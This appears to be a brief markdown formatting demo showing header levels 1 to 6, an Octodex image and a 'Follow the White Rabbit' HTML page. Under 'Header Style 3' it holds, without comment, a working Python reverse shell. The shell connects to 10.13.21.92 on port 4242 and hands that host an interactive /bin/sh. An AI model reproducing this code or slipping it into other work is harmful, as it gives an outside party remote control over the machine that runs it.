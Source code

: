 # Header Style 1

![Image of Yaktocat](https://octodex.github.com/images/yaktocat.png)

## Header Style 2  
```html
<!DOCTYPE html>
<head>
  <title>Follow the white rabbit.</title>
    <link rel="stylesheet" type="text/css" href="/main.css">
</head>
<body>
    <h1>Follow the White Rabbit.</h1>
    <p>"Curiouser and curiouser!" cried Alice (she was so much surprised, that for the moment she quite forgot how to speak good English)</p>
    <img src="/img/white_rabbit_1.jpg" style="height: 50rem;">
</body>
```

### Header Style 3

```python
import socket,os,pty

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.13.21.92",4242))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/sh")
```

#### Header Style 4
##### Header Style 5
###### Header Style 6

